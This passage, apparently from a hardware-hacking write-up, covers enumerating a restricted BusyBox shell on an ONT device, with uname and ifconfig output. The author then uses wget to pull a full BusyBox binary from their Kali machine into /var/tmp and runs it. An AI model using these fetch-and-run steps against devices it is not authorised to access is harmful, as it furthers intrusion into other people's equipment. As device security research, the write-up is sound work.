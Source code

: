 ```markdown
        pidof, ping, ping6, poweroff, printenv, printf, ps, pwd, readlink,
        realpath, reboot, rm, rmdir, rmmod, route, run-parts, sed, seq, sh,
        sha1sum, sha256sum, sha512sum, sleep, sort, split, stat, stty, sum,
        sync, sysctl, syslogd, tac, tail, tar, tee, test, tftp, top, touch, tr,
        traceroute, traceroute6, true, tty, udhcpc, umount, uname, unexpand,
        uniq, unix2dos, usleep, uudecode, uuencode, vconfig, vi, wget, zcat
```
The defined functions are limited, but enough to continue enumerating the system.
```markdown
#ONT/system/shell>uname -a
Linux (none) 2.6.30.9-cig-sfu-1 #1 Fri Dec 11 11:48:11 CST 2015 rlx GNU/Linux
```
And the network config.
```markdown
#ONT/system/shell>ifconfig
eth0      Link encap:Ethernet  HWaddr A4:81:7A:CB:72:2C  
          inet6 addr: fe80::a681:7aff:fecb:722c/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:11 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:866 (866.0 B)
          Interrupt:26 Base address:0x2000 

lan0      Link encap:Ethernet  HWaddr A4:81:7A:CB:72:2C  
          inet addr:192.168.100.1  Bcast:192.168.100.255  Mask:255.255.255.0
          inet6 addr: fe80::a681:7aff:fecb:722c/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:6 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:468 (468.0 B)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```
A full `busybox` version will provide more flexibility. The the binary can be downloaded from here: https://www.busybox.net/downloads/binaries/1.18.4/busybox-mips<br>
<br>
Good news are the currently installed `busybox` allows to run `wget`, so we can transfer files from our Kali machine. Also, a writable directory is needed as destination, for example this one `/var/tmp`
```markdown
#ONT/system/shell>cd /var/tmp

#ONT/system/shell>wget http://192.168.100.5/busybox-mips
Connecting to 192.168.100.5 (192.168.100.5:80)
busybox-mips         100% |***********************************************************************|  1506k 00:00:00 ETA

#ONT/system/shell>chmod +x busybox-mips

#ONT/system/shell>./busybox-mips
BusyBox v1.18.4 (2011-04-04 19:31:40 CDT) multi-call binary.
Copyright (C) 1998-2009 Erik Andersen, Rob Landley, Denys Vlasenko
and others. Licensed under GPLv2.
See source distribution for full notice.

```